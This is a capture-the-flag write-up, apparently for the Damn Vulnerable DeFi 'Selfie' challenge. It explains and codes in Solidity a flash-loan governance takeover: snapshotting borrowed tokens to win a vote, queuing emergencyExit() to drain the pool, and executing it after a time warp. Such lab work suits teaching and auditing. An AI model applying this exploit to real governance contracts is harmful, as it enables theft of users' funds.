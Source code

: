 * The function `emergencyExit()` can drain the pool, but has the `onlyGovernance` modifier.

* The `onlyGovernance` modifier controls that only the `SimpleGovernance` contract executes this function.
  * We can add this function at `queueAction()` so `executeAction()` will invoke it.

* Now, `queueAction()` asks you to have enough votes (`hasEnoughVotes(msg.sender)`).
  * To have the votes, you need to have enough of the contract's `_governanceToken`, which is the same `token` of the pool. That is, we can just take a flash loan, issue a `snapshot()`, and get the majority of votes.
  * After we run the `snapshot()`, we can deliver the payload.

* Because `executeAction()` will ask for a minimum `ACTION_DELAY_IN_SECONDS` of `2 days`, we would have to wait IRL for that time to execute the attack. We just pretend we do with `vm.warp(block.timestamp + 2 days)`. Also we would get the `actionId` by inspecting the `ActionQueued` event log.

Putting everything together, we have

```solidity
function onFlashLoan(
      address,
      address,
      uint256 amount,
      uint256,
      bytes calldata
  ) external returns (bytes32) {
  // since this implements DamnValuableTokenSnapshot,
  // we can just issue a snapshot.
  // as we were able to borrow the maximum of the pool,
  // we will get the majority of the votes.
  governanceToken.snapshot();

  // prepare the payload
  bytes memory data = abi.encodeWithSelector(
    ISelfiePool.emergencyExit.selector,
    player
  );

  // deliver the payload
  governance.queueAction(
    address(pool),
    0,
    data
  );

  // return the funds
  token.approve(msg.sender, amount);
  return keccak256("ERC3156FlashBorrower.onFlashLoan");
}

// .... wait for 2 days ....
// then:

function attack() public {
  // IRL we would obtain this id parameter by inspecting
  // the log of the ActionQueued event.
  governance.executeAction(1);
}
```
